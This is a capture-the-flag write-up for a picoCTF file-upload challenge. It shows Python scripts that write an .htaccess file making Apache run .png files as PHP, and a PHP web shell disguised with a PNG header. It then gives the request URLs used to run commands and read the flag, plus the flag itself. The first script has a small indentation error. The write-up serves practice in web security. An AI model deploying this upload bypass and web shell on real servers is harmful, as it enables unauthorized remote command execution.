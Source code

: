 
---

## Information given

#### Description

A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

Additional details will be available after launching your challenge instance.

#### Hints
Apache can be tricked into executing non-PHP files as PHP with a `.htaccess` file.
Try uploading more than just one file.

---

## Upload file

As you can see we are greeted with a website:

![[Screenshot 2025-10-01 at 20.24.02.png]]

We need to upload a file with a payload in order to get RCE (Remote Code Execution, this lets us run commands on the web server).

Remember that the hint stated that `.htaccess` needs to be uploaded in order to even upload another file which lets us execute commands on the web server.

To make the `.htaccess` file:

```python
#!/usr/bin/env python3

def create_htaccess():
htaccess_content = '''
AddType application/x-httpd-php .png
php_flag engine on
'''
	
	with open('.htaccess', 'w') as f:
		f.write(htaccess_content)
	print("[+] Created .htaccess file")

create_htaccess()
```

Then upload the file.

After uploading that we need to upload a png file with a payload letting us execute commands. To do this use this python script:

```python
#!/usr/bin/env python3

def create_php_shell_png():
    # Simple PHP web shell that will execute when accessed
    php_shell = b'''\x89PNG\r\n\x1a\n<?php
if(isset($_REQUEST['cmd'])) {
    header("Content-Type: text/plain");
    system($_REQUEST['cmd']);
    die();
}
echo "PNG Image";
?>
'''
    
    with open('shell.png', 'wb') as f:
        f.write(php_shell)
    
    print("[+] Created PHP shell as shell.png")

create_php_shell_png()
```

Then upload that and visit:

```
http://your-pico-info-target-whatever/images/shell.png?cmd=id
```

And you will see:

```
�PNG   
**Warning**: Cannot modify header information - headers already sent by (output started at /var/www/html/images/shell.png:1) in **/var/www/html/images/shell.png** on line **5**  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now to read the flag:

```
http://amiable-citadel.picoctf.net:64056/images/shell.png?cmd=cat+../../flag.txt

---

OUTPUT:

�PNG   
**Warning**: Cannot modify header information - headers already sent by (output started at /var/www/html/images/shell.png:1) in **/var/www/html/images/shell.png** on line **5**  
picoCTF{s3rv3r_byp4ss_77c49c68}
```

So the flag is: `picoCTF{s3rv3r_byp4ss_77c49c68}`.

---

